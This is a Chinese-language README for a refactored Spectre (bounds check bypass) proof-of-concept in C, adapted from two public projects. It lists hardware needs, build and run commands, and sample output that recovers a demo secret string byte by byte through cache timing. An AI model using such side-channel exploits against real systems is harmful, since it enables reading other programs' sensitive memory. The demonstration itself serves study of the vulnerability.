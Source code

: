 # Bounds Check Bypass PoC
本项目通过 C 代码演示了经典的“边界检查绕过”（Bounds Check Bypass）侧信道攻击原理，即 Spectre 漏洞。攻击者可利用 CPU 的分支预测和缓存时序侧信道，越界读取受害者内存中的敏感数据。

## 说明
- 项目地址
    - [crozone/SpectrePoC](https://github.com/crozone/SpectrePoC)        
    - [isec-tugraz/transientfail](https://github.com/isec-tugraz/transientfail)
- 演示如何通过分支预测误导 CPU，利用缓存命中时间推测 secret 字符串内容。

- 本项目对上述代码均有重构。

## 依赖环境
- 支持 x86_64 指令集的处理器（建议 Intel 平台）
- 推荐Linux系统（master-v1.c中的fork函数仅限Linux系统）
- GCC 支持内联汇编（推荐使用 gcc 编译器）

- 支持 rdtscp, clflush, mfence 指令的处理器

## 编译
```bash
make           # 编译指定源文件（默认main.c）
make clean     # 清理中间文件
```

## 运行
运行程序可选指定缓存命中阈值，若不指定则自动检测：

```bash
./poc          # 使用内置阈值运行
./poc 100       # 手动设定阈值（推荐80~400之间尝试）
```
## 运行效果
程序运行后会逐字节恢复被保护的 "秘密" 数据（例如字符串 "INACCESSIBLE SECRET" 或 "The Magic Words..."）.

多次实验结果证明，重构后的`crozone/SpectrePoC`代码比`isec-tugraz/transientfail`更容易成功(无论是Intel还是兆芯)。

### 针对 crozone/SpectrePoC
```TEXT
Using a cache hit threshold of 400.
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffffe09b... Success: 0x54='T' count=11       (second best: 0xEE='?' count=3)
Reading at malicious_x = 0xffffffffffffe09c... Unclear: 0x68='h' count=982      (second best: 0x3E='>' count=671)
Reading at malicious_x = 0xffffffffffffe09d... Success: 0x65='e' count=7        (second best: 0xFC='?' count=1)
Reading at malicious_x = 0xffffffffffffe09e... Success: 0x20=' ' count=2
Reading at malicious_x = 0xffffffffffffe09f... Success: 0x4D='M' count=13       (second best: 0xEE='?' count=4)
Reading at malicious_x = 0xffffffffffffe0a0... Success: 0x61='a' count=7        (second best: 0xE5='?' count=1)
Reading at malicious_x = 0xffffffffffffe0a1... Success: 0x67='g' count=2
Reading at malicious_x = 0xffffffffffffe0a2... Success: 0x69='i' count=2
Reading at malicious_x = 0xffffffffffffe0a3... Success: 0x63='c' count=2
Reading at malicious_x = 0xffffffffffffe0a4... Success: 0x20=' ' count=2
Reading at malicious_x = 0xffffffffffffe0a5... Success: 0x57='W' count=15       (second best: 0x5F='_' count=5)
Reading at malicious_x = 0xffffffffffffe0a6... Success: 0x6F='o' count=17       (second best: 0xEE='?' count=6)
Reading at malicious_x = 0xffffffffffffe0a7... Success: 0x72='r' count=15       (second best: 0x47='G' count=5)
Reading at malicious_x = 0xffffffffffffe0a8... Success: 0x64='d' count=7        (second best: 0x47='G' count=1)
Reading at malicious_x = 0xffffffffffffe0a9... Success: 0x73='s' count=7        (second best: 0x95='?' count=1)
Reading at malicious_x = 0xffffffffffffe0aa... Success: 0x20=' ' count=2
Reading at malicious_x = 0xffffffffffffe0ab... Success: 0x61='a' count=7        (second best: 0x00='?' count=1)
Reading at malicious_x = 0xffffffffffffe0ac... Success: 0x72='r' count=13       (second best: 0x47='G' count=4)
Reading at malicious_x = 0xffffffffffffe0ad... Success: 0x65='e' count=7        (second best: 0xCF='?' count=1)
Reading at malicious_x = 0xffffffffffffe0ae... Success: 0x20=' ' count=7        (second best: 0xEE='?' count=1)
Reading at malicious_x = 0xffffffffffffe0af... Success: 0x53='S' count=13       (second best: 0xE4='?' count=4)
Reading at malicious_x = 0xffffffffffffe0b0... Unclear: 0x71='q' count=997      (second best: 0x74='t' count=582)
Reading at malicious_x = 0xffffffffffffe0b1... Success: 0x75='u' count=7        (second best: 0xCF='?' count=1)
Reading at malicious_x = 0xffffffffffffe0b2... Success: 0x65='e' count=7        (second best: 0xEE='?' count=1)
Reading at malicious_x = 0xffffffffffffe0b3... Success: 0x61='a' count=2
Reading at malicious_x = 0xffffffffffffe0b4... Success: 0x6D='m' count=2
Reading at malicious_x = 0xffffffffffffe0b5... Success: 0x69='i' count=2
Reading at malicious_x = 0xffffffffffffe0b6... Success: 0x73='s' count=9        (second best: 0x47='G' count=2)
Reading at malicious_x = 0xffffffffffffe0b7... Unclear: 0x68='h' count=989      (second best: 0x3E='>' count=613)
Reading at malicious_x = 0xffffffffffffe0b8... Success: 0x20=' ' count=7        (second best: 0xE5='?' count=1)
Reading at malicious_x = 0xffffffffffffe0b9... Success: 0x4F='O' count=33       (second best: 0xEE='?' count=14)
Reading at malicious_x = 0xffffffffffffe0ba... Success: 0x73='s' count=7        (second best: 0xCE='?' count=1)
Reading at malicious_x = 0xffffffffffffe0bb... Success: 0x73='s' count=2
Reading at malicious_x = 0xffffffffffffe0bc... Success: 0x69='i' count=7        (second best: 0xEE='?' count=1)
Reading at malicious_x = 0xffffffffffffe0bd... Success: 0x66='f' count=49       (second best: 0xEF='?' count=22)
Reading at malicious_x = 0xffffffffffffe0be... Success: 0x72='r' count=11       (second best: 0x47='G' count=3)
Reading at malicious_x = 0xffffffffffffe0bf... Success: 0x61='a' count=9        (second best: 0xE5='?' count=2)
Reading at malicious_x = 0xffffffffffffe0c0... Unclear: 0x67='g' count=996      (second best: 0x3C='<' count=566)
Reading at malicious_x = 0xffffffffffffe0c1... Success: 0x65='e' count=7        (second best: 0xEF='?' count=1)
Reading at malicious_x = 0xffffffffffffe0c2... Success: 0x2E='.' count=7        (second best: 0xE5='?' count=1)
```

### 针对 isec-tugraz/transientfail

```TEXT
[*] Flush+Reload Threshold: 400
[ ]  INACCESSIBLE SECRET

[>] Done
```
